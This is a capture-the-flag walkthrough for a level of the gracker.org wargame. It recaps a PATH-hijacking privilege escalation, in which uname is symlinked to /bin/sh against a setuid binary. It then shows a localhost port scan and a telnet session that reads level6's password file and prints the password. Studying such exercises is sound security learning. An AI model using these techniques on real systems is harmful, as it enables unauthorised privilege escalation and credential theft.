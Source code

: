 Exercise
========

Login to ```gracker.org``` with the password of user ```level5``` which we gained in ```level4```:
```
user@system ~ $ ssh level5@gracker.org
      __                  _
     / /                 | |
    / /_ _ _ __ __ _  ___| | _____ _ __
   / / _` | '__/ _` |/ __| |/ / _ \ '__|
  / / (_| | | | (_| | (__|   <  __/ |
 /_/ \__, |_|  \__,_|\___|_|\_\___|_|
      __/ |
     |___/
             ~ follow the white rabbit ~
                     ~ gracker ~
            ~ irc.hackint.org  #gracker ~
level5@gracker.org's password:
X11 forwarding request failed on channel 0
                  - The Grid -
               A digital frontier.
 I tried to picture clusters of information as
      they moved through the computer...
What did they look like? - Ships? Motorcycles?
   Were the circuits like freeways? I kept
dreaming of a World I thought I'd never see...
             And then... One day.
                  I got in!

~ https://vimeo.com/25592352
```
As stated by the text which is displayed after login, we start by displaying the recap of the previous level:
```
level5@gracker:~$ cat recap
In this level you had to exploit the fact, that if no absolute path is specified,
the system searches in the $PATH locations for it. Because the setuid binary
didn't use absoliute paths, it was possible to change the environment $PATH
variable. One of the first commands executed is `uname`. So we use a symlink
called uname to `/bin/sh`.

    ln -s /bin/sh uname

If we now set $PATH only to the current working directory "." the system will
search for the `uname` program and will only find the symlink. So it will execute
the shell for us.

    level4@gracker:/tmp/level4$ echo $PATH
    /sbin/:/usr/local/bin:/usr/bin:/bin:/usr/games

    level4@gracker:/tmp/level4$ env PATH=. /matrix/level4/level4
    Zero Cool - Linux Information Gathering Tool v1.2

    [*] Get system information:
    $ PATH=/sbin/:/usr/local/bin:/usr/bin:/bin:/usr/games
    $ id
    uid=1005(level5) gid=1004(level4) groups=1004(level4)

Because the $PATH is now screwed, we have to reset it back to the original value,
otherwise no other commands will work.

This kind of exploit is or was a real issue. Not only for linux commandline $PATH,
but also for DLLs in Windows or Dylib (dynamic libraries) in OSX.
Read this paper for more details:
https://www.virusbtn.com/virusbulletin/archive/2015/03/vb201503-dylib-hijacking
```
After this, we can display this level's story file in order to find out what we have to do in order to get the password of level5:
```
level5@gracker:~$ cat story
┌─────────────────┐
│ Enter The Grid! │
└─────────────────┘
It looks like Zero Cool hacked into Kevin Flynn's computer. Kevin Flynn is
a Hacker who has been missing for quite some time. We don't know what he
was working on, nor do we know where he is. Maybe Zero Cool knows more.
                                                       ┌─────────────────┐
It looks like  there is no setuid binary this level to │      _____      │
exploit.  So there must be  another way  how Zero Cool │  ___/ _U_ \___  │
hacked into Flynn's system.  You should perform a port │  [:\__\=/__/:]  │
scan on 127.0.0.1 - we also received the hint that the │  ||   ```   ||  │
port is between 0x5ad-0xdad.                           │  ||         ||  │
                                                       │  |_\       /_|  │
If you struggle to get a shell as level6, maybe take a │                 │
break and watch "TRON: LEGACY" [0]. I'm sure that once └─────────────────┘
you saw the movie, you will know how to get access to the GRID.

Tools you may want to have a look at for this level:
 ● `nmap` - Network exploration tool and security / port scanner
 ● `nc`, `netcat` - TCP/IP swiss army knife
 ● watching TRON: LEGACY

[0] https://www.youtube.com/watch?v=L9szn1QQfas
┌────────────────────────────────────────────────────────────────────────┐
│                                                                        │
│              _/_/_/_/_/  _/_/_/      _/_/    _/      _/                │
│                 _/      _/    _/  _/    _/  _/_/    _/                 │
│                _/      _/_/_/    _/    _/  _/  _/  _/                  │
│               _/      _/    _/  _/    _/  _/    _/_/                   │
│              _/      _/    _/    _/_/    _/      _/                    │
│                                                                        │
└────────────────────────────────────────────────────────────────────────┘
```

Solution
========
First of all we convert the mentioned port range from hex vaues to decimal:
```
level5@gracker:~$ echo $((0x5ad))
1453
level5@gracker:~$ echo $((0xdad))
3501
```
Then we use ```nmap``` in order to find out which port on target ```localhost``` (127.0.0.1) is listening:
```
level5@gracker:~$ nmap 127.0.0.1 -p 1453-3501

Starting Nmap 6.47 ( http://nmap.org ) at 2017-12-27 11:56 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (1.00s latency).
Not shown: 2048 closed ports
PORT     STATE SERVICE
2989/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 99.03 seconds
```
Let's connect to port ```2989``` and see what happens:
```
level5@gracker:~$ telnet 127.0.0.1 2989
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
$ whoami
flynn
$ uname -a
SolarOs 4.0.1 Generic_50203-02 sun4m i386
Unknown.Unknown
$ login -n root
Login incorrect
login: backdoor
No home directory specified in password file!
Logging in with home=/
# bin/history
  499 kill 2208
  500 ps -a -x -u
  501 touch /opt/LLL/run/ok
  502 LLLSDLaserControl -ok 1
#
Broadcast message from ZeroCool@h4xx0r (pts/0) (Oct 21 16:29:00 2015):

You are too slow.
Mess With the Best, Die Like the Rest!
Connection closed by foreign host.
```
OK... this is nice but we didn't get a shell. Instead we get a lot of output and the previous command history:
```
# bin/history
  499 kill 2208
  500 ps -a -x -u
  501 touch /opt/LLL/run/ok
  502 LLLSDLaserControl -ok 1
```
Let's connect once again and quickly enter the last two commands ```touch /opt/LLL/run/ok``` and ```LLLSDLaserControl -ok 1``` from the command history folowed by ```cat /home/level6/.pass``` in order to get the next level's password:
```
level5@gracker:~$ telnet 127.0.0.1 2989
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
[...]
# touch /opt/LLL/run/ok
# LLLSDLaserControl -ok 1
You entered the Grid!

level6@TRON:~$ cat /home/level6/.pass
@XpLtpZhqtiG
```
